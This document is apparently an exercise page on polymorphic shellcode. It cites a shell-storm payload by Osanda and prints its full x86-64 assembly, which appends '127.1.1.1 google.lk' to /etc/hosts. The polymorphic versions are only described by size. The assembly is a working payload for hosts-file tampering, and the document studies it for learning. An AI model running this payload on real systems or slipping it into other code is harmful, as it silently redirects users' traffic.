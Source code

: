 * Shellcode Name: Add map in /etc/hosts file
* Author: Osanda (@OsandaMalith)
* URL: [http://shell-storm.org/shellcode/files/shellcode-896.php](http://shell-storm.org/shellcode/files/shellcode-896.php)
* Description: Adds entry in the `/etc/hosts` file
* Original Shellcode Size: 110 bytes
* Max Size of the polymorphic Version: 165 bytes
* Size of the Created Polymorphic Version: **84 bytes for V1 and 98 for V2 (below the original size)**

The original ASM file:
```asm
global _start
    section .text

_start:
    ;open
    xor rax, rax 
    add rax, 2  ; open syscall
    xor rdi, rdi
    xor rsi, rsi
    push rsi ; 0x00 
    mov r8, 0x2f2f2f2f6374652f ; stsoh/
    mov r10, 0x7374736f682f2f2f ; /cte/
    push r10
    push r8
    add rdi, rsp
    xor rsi, rsi
    add si, 0x401
    syscall

    ;write
    xchg rax, rdi
    xor rax, rax
    add rax, 1 ; syscall for write
    jmp data

write:
    pop rsi 
    mov dl, 19 ; length in rdx
    syscall

    ;close
    xor rax, rax
    add rax, 3
    syscall

    ;exit
    xor rax, rax
    mov al, 60
    xor rdi, rdi
    syscall 

data:
    call write
    text db '127.1.1.1 google.lk'
```
